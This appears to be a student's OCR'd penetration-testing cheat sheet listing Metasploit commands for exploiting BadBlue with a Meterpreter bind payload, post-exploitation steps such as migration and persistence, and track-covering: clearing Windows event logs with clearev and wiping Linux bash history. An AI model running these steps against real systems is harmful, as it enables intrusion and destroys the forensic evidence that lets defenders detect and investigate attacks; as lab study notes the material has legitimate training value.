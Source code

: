 - search badblue
- set paylload windows/meterpreter/bind_tcp
- set rhosts <vicitm-2-ip>
- exploit
- 
## Clearing
### Clearing your Tracks On Windows
- stored all scripts that has been stored on target system C:/Temp 
- /tmp
- windows Evenet Log
- nmap -sV <target-ip>
- msfconsole
- search badblue
- use set run
- show advanced 
- show info
- sysinfo
- getuid
- migrate
- search persistence platform:windows
- session 1
- resource /PATH-OF-SCRIPT
- clearev
- 
### Clearing Your Tracks On Linux
- namp -sV <target-ip>
- use set run
- /tmp
- cd ~
- ls -al
- .bash_history
- .bashrc
- open this .bash_history file and delete all the command that you used on target system.
- history
- history -c
- cat /dev/null > .bash_history 
## 
